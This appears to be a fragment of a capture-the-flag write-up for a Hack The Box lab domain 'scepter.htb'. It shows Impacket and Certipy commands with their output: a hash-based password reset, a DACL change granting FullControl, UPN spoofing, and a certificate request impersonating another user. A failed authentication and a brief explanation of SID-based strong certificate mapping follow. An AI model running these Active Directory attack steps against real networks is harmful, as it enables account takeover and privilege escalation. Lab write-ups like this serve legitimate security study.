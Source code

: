 </div>

```bash
➜ changepasswd.py 'scepter.htb'/'a.carter'@10.129.28.117 -reset -altuser 'd.baker' -althash :'18..ce'

➜ dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'password'

Impacket v0.13.0.dev0+20240918.213844.ac790f2b - Copyright Fortra, LLC and its affiliated companies

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250420-060416.bak
[*] DACL modified successfully!

➜ certipy account update -username "a.carter@scepter.htb" -p 'password' -user d.baker -upn 'h.brown'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'd.baker':
    userPrincipalName                   : h.brown
[*] Successfully updated 'd.baker'

➜ certipy req -username "d.baker" -hashes :"18..ce" -target "DC01.scepter.htb" -ca 'scepter-DC01-CA' -template 'User' -dc-ip '10.129.76.175' -subject "CN=d.baker,CN=Users,DC=scepter,DC=htb" -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'DC01.scepter.htb' at '10.129.76.175'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.76.175[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.76.175[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with subject: DC=htb,DC=scepter,OU=Staff Access Certificate,CN=d.baker
[*] Got certificate with UPN 'h.brown'
[*] Certificate object SID is 'S-1-5-21-74879546-916818434-740295365-1106'
[*] Saved certificate and private key to 'h.brown.pfx'

➜ certipy account update -username "a.carter@scepter.htb" -p "password" -user d.baker -upn "d.baker@scepter.htb"

➜ certipy auth -pfx 'h.brown.pfx' -domain "scepter.htb"

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: h.brown@scepter.htb
[*] Trying to get TGT...
[-] Object SID mismatch between certificate and user 'h.brown'
[-] Verify that user 'h.brown' has object SID 'S-1-5-21-74879546-916818434-740295365-1106'
```
> The SID is the recommended way and therefore counts as "Strong".
The DC uses this SID in strong implicit certificate mapping instead of the weak UPN and DNS mapping to ensure that the enrollee can only authenticate as themselves.
The strong ones contain identifiers that you cannot reuse.
For example, the mail attribute is not a unique protected attribute so it is possible to set the mail attribute to the value of another user.
